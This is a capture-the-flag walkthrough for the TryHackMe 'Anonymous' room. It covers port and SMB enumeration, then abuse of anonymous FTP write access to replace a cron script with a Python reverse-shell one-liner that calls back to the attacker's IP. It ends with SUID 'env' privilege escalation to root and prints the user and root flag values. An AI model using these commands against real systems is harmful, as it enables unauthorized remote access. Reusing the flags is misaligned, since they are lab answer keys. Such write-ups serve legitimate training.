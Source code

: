 ```yaml
---
description: 'https://tryhackme.com/room/anonymous'
---
```


# Anonymous

## Task 1 Pwn

### Enumerate the machine.  How many ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.17.122
```

![](../.gitbook/assets/image%20%28254%29.png)

{% hint style="success" %}
4
{% endhint %}

### What service is running on port 21?

![](../.gitbook/assets/image%20%28253%29.png)

{% hint style="success" %}
ftp
{% endhint %}

### What service is running on ports 139 and 445?

![](../.gitbook/assets/image%20%28252%29.png)

{% hint style="success" %}
smb
{% endhint %}

### There's a share on the user's computer.  What's it called?

```text
enum4linux -S 10.10.17.122
```

![](../.gitbook/assets/image%20%28251%29.png)

{% hint style="success" %}

{% endhint %}

### user.txt 

![](../.gitbook/assets/image%20%28273%29.png)

![](../.gitbook/assets/image%20%28279%29.png)

![](../.gitbook/assets/image%20%28250%29.png)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

```text
nc -nvlp 4444

mget *
ls -all
vi clean.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.4.204",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

ftp 10.10.178.0
anonymous
password
cd scripts
mput clean.sh
y
```

![](../.gitbook/assets/image%20%28262%29.png)

![](../.gitbook/assets/image%20%28271%29.png)

{% hint style="success" %}
90d6f992585815ff991e68748c414740
{% endhint %}

### root.txt

```text
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```text

env /bin/sh -p
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28260%29.png)

{% hint style="success" %}
4d930091c31a622a7ed10f27999af363
{% endhint %}

